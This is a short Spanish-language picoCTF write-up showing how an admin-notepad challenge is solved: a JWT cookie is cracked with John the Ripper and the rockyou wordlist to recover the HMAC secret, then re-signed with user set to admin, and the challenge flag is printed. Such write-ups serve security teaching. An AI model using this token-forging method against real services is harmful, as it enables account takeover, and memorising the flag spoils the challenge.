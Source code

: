 ## Descripcion 

¡Consulta el bloc de notas del administrador! https://jupiter.challenges.picoctf.org/problem/61864/ o http://jupiter.challenges.picoctf.org:61864
## Solucion

En la cookie vemos en jwt, se divide en tres partes

logearse con cualquier nombre
copiamos el jwt
en jwt.io

┌──(kali㉿kali)-[~]
└─$ nano crack
┌──(kali㉿kali)-[~]
└─$ cat crack                                                                                             
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiTWVzc2kifQ.Xri9D0_l3ZMLRpxiTUEBOJ4sqw9GflF-sl96SK0ZFxk          
┌──(kali㉿kali)-[~]
└─$ 
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ sudo gzip -d rockyou.txt 
[sudo] password for kali:                                            
┌──(kali㉿kali)-[/usr/share/wordlists]
└─$ 
┌──(kali㉿kali)-[~]
└─$ john crack -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovepico        (?)     
1g 0:00:00:02 DONE (2024-03-04 14:16) 0.3759g/s 2780Kp/s 2780Kc/s 2780KC/s iloverob4live345..ilovemymother@
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
      
┌──(kali㉿kali)-[~]
└─$ 

Modificamos que diga user = admin en jwt.io

{
  "user": "admin"
}

HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  ilovepico
) secret base64 encoded


///en el cookie y lo pasamos a la cookie de la pagina

picoCTF{jawt_was_just_what_you_thought_1ca14548}


## Notas adicionales
